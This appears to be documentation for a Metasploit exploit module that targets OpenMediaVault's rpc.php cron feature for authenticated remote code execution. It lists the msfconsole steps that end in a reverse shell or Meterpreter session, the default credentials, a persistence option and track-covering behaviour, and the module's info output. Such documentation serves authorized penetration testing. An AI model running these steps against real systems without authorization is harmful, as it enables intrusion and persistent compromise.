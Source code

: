 You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/unix/webapp/openmediavault_auth_cron_rce`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix Command, 1=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options

### USERNAME
This option is required and is the username (default: admin) to authenticate with the application.

### PASSWORD
This option is required and is the password (default: openmediavault) in plain text to authenticate with the application.

### PERSISTENT
This option keeps the payload persistent in Cron and runs every minute. Warning: This is a noisy option for detection.
The default value is false, where the payload is removed to cover your tracks.

## Scenarios
```msf
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > info

       Name: OpenMediaVault rpc.php Authenticated Cron Remote Code Execution
     Module: exploit/unix/webapp/openmediavault_auth_cron_rce
   Platform: Unix, Linux
       Arch: cmd, x86, x64, armle, aarch64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-05-08

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Brandon Perry <bperry.volatile@gmail.com>
  Mert BENADAM

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

```